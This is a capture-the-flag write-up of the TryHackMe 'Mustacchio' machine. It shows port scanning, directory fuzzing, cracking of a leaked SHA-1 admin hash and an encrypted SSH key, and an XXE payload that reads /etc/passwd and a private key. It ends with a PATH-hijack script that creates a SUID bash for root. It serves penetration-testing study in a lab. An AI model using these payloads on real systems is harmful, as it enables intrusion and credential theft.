

The Mustacchio machine on TryHackMe is an easy-difficulty challenge that requires a blend of web exploitation, cryptographic cracking, and Linux privilege escalation techniques. The journey begins with fuzzing found webs on port scanning to discover hidden directories and endpoints, which lead to crucial data for cracking password hashes. With the cracked credentials in hand, the next step is to exploit an XXE (XML External Entity) vulnerability to retrieve an SSH key pair, providing the initial foothold on the machine.

From there, privilege escalation is achieved by leveraging a binary with the SUID bit set. By analyzing the SUID binary strings, we discover that a known binary is called without using an absolute path. This allows us to hijack the execution by placing our own version of the binary earlier in the PATH, gaining root privileges and full system control.

## Info

|------------------|----------------------------|
| **Name**         | Mustacchio                 |
| **OS**           | Linux                      |
| **Difficulty**   | Easy   🟢                     |

## Port scanning

```bash
┌──(root㉿kali)-[~]
└─# nmap  -sC -sV 10.10.23.241 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-01 23:22 UTC
Nmap scan report for ip-10-10-23-241.eu-west-1.compute.internal (10.10.23.241)
Host is up (0.0014s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 581b0c0ffacf05be4cc07af1f188611c (RSA)
|   256 3cfce8a37e039a302c77e00a1ce452e6 (ECDSA)
|_  256 9d59c6c779c554c41daae4d184710192 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 02:A3:13:53:1C:83 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 121.12 seconds
```

## Initial foothold

Port 80 presents a standard webpage that, at first glance and after navigating around, appears unremarkable with no immediately visible vulnerabilities.


I proceeded by using ffuf to perform content discovery, fuzzing the website to uncover hidden directories and files that might reveal more entry points.

```bash
┌──(root㉿kali)-[~]
└─# ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.23.241/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.23.241/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 3ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 3ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 3ms]
#                       [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 1ms]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 1ms]
#                       [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 115ms]
# Copyright 2007 James Fisher [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 118ms]
custom                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
#                       [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 123ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 191ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 206ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 208ms]
#                       [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 214ms]
# on at least 2 different hosts [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 238ms]
                        [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 327ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 1ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 333ms]
                        [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 1ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5ms]
:: Progress: [220560/220560] :: Job [1/1] :: 18564 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

I discovered a custom entry point that features a directory listing. Within the `js` folder, I found an intriguing file named users.bak


I downloaded the file and checked its format, confirming it to be a SQLite3 database. Inside, I discovered a users table, and upon outputting its contents, I found an entry for the user 'admin,' which included a password hash.

```bash
┌──(root㉿kali)-[~]
└─# wget http://10.10.23.241/custom/js/users.bak
--2024-11-01 23:15:51--  http://10.10.23.241/custom/js/users.bak
Connecting to 10.10.23.241:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8192 (8.0K) [application/x-trash]
Saving to: ‘users.bak’

users.bak                                                                      100%[===================================================================================================================================================================================================>]   8.00K  --.-KB/s    in 0.001s  

2024-11-01 23:15:51 (9.30 MB/s) - ‘users.bak’ saved [8192/8192]


┌──(root㉿kali)-[~]
└─# file users.bak                                                                                                          
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2


┌──(root㉿kali)-[~]
└─# sqlite3 users.bak 
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
        
```

The hash appeared to be a SHA-1, so I proceeded to crack the found password hash using Hashcat. After running the cracking process, password is successfully retrieved

```bash
┌──(root㉿kali)-[~]
└─# echo "1868e36a6d2b17d4c2745f1659433a54d4bc5f4b" > admin_hash
                                                                                                                            
┌──(root㉿kali)-[~]
└─# hashid admin_hash 
--File 'admin_hash'--
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1 
...
```

```bash
┌──(root㉿kali)-[~]
└─# hashcat -m 100 admin_hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
...

1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:b*******9        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
...

```

I attempted to log in via SSH using the admin user and the cracked password, but the login was unsuccessful

```bash
┌──(root㉿kali)-[~]
└─# ssh admin@10.10.23.241          
The authenticity of host '10.10.23.241 (10.10.23.241)' can't be established.
ED25519 key fingerprint is SHA256:8ffSUaKVshwAGNYcOWTbXfy0ik5uNnUqe/0nXK/ybSA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.23.241' (ED25519) to the list of known hosts.
admin@10.10.23.241: Permission denied (publickey).

```

I decided to continue my investigation by exploring a different entry point on port 8765.
There I was presented with an admin panel that prompts for credentials.


Eentered the previously found credentials, and the login was successful!


There is a textarea with a submit button on the panel, so I launched Burp Suite to intercept the request and analyze the data sent and received
Found an `/auth/dontforget.bak` endpoint and observed a response suggesting that an individual named `Barry` is able to log in using an SSH key.


In the web rendering preview, I encountered a section labeled 'Comment Preview.


I proceeded to download auth/dontforget.bak and checked its file format, confirming that it is an XML file. I then output the content for further analysis.

```bash
┌──(root㉿kali)-[~]
└─# wget http://10.10.23.241:8765/auth/dontforget.bak
--2024-11-01 23:32:55--  http://10.10.23.241:8765/auth/dontforget.bak
Connecting to 10.10.23.241:8765... connected.
HTTP request sent, awaiting response... 200 OK
Length: 996 [application/octet-stream]
Saving to: ‘dontforget.bak’

dontforget.bak                                                                 100%[===================================================================================================================================================================================================>]     996  --.-KB/s    in 0s      

2024-11-01 23:32:55 (205 MB/s) - ‘dontforget.bak’ saved [996/996]

┌──(root㉿kali)-[~]
└─# file dontforget.bak 
dontforget.bak: XML 1.0 document, Unicode text, UTF-8 text, with very long lines (873), with CRLF line terminators

┌──(root㉿kali)-[~]
└─# cat dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>       
```

Sent the found XML as an xml parameter in the previous request, and observed that it was reflected in the response.


This suggests that might vulnerable to XXE. So I executed a basic XXE payload using the previous XML to retrieve the contents of the /etc/passwd file

```text
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">] >
<comment>
	<name>A</name>
	<author>B</author>
	<com>&xxe;</com>
</comment>
```

The exploitation was successful, and can retrieve the contents of the /etc/passwd file.


With that, XXE vulnerability is confirmed and discovered the users joe and barry. Given the earlier hint that barry can log in using SSH, so decided to attempt to retrieve the SSH key pair using XXE.


Retrieved the private key, but it was encrypted. I copied it to a file named id_rsa and used John the Ripper to format it correctly and attempt to crack the hash

```bash
┌──(root㉿kali)-[~]
└─# /usr/share/john/ssh2john.py id_rsa > barry.hash

┌──(root㉿kali)-[~]
└─# /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt barry.hash 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
u********s       (barry)     
1g 0:00:00:02 DONE (2024-11-02 00:22) 0.3802g/s 1129Kp/s 1129Kc/s 1129KC/s urieljr.k..urielito1000
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Successfully cracked the key, set the correct permissions for the SSH key, and attempted to log in using it in an SSH connection. However, we were prompted for a passphrase, so entered the cracked password
```bash
┌──(root㉿kali)-[~]
└─# chmod 600 barry                
                                                                                                                            
┌──(root㉿kali)-[~]
└─# ssh -i barry barry@10.10.23.241
Enter passphrase for key 'barry': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ id
uid=1003(barry) gid=1003(barry) groups=1003(barry)
barry@mustacchio:~$ cat user.txt 
6******************************1
```

Success! Foothold obtained on the machine and can grab user flag, now it’s time to proceed with privilege escalation.

## Privilege escalation

We began by checking for SUID files on the system for current user

```bash
barry@mustacchio:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log     <--------------------------
/bin/ping                         
/bin/ping6                         
/bin/umount
/bin/mount
/bin/fusermount
/bin/su

barry@mustacchio:~$ ls -latr /home/joe/live_log                                                                             
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
```

Found an interesting SUID file that barry can execute, located at `/home/joe/live_log`

By extracting strings from the file, we discovered that it runs the tail command on `/var/log/nginx/access.log`



The problem relies in that tail might be exploited because it is run without an absolute path, making it exploitable. To take advantage of this, we can create a malicious tail script in the /tmp directory that is crafted to create a copy of bash in /tmp/bash and set the SUID bit on it, /tmp can be added to the beginning of the $PATH, and then run the SUID file to escalate privileges.
After this script is executed with elevated privileges, we can use the modified bash shell to spawn a root shell.

```bash
barry@mustacchio:~$ cd /tmp
barry@mustacchio:/tmp$ vim tail 
barry@mustacchio:/tmp$ cat tail 
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
barry@mustacchio:/tmp$ chmod +x /tmp/tail 
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ /home/joe/live_log 
Live Nginx Log Readerbarry
```

The bash copy in /tmp was created with the SUID bit set, owned by root, and is executable by any user. This enables us to run /tmp/bash as root, giving us a root shell


```bash
barry@mustacchio:/tmp$ /tmp/bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
3******************************5
```

With this final step, we successfully obtained the root flag. The privilege escalation was completed, granting us full control over the system
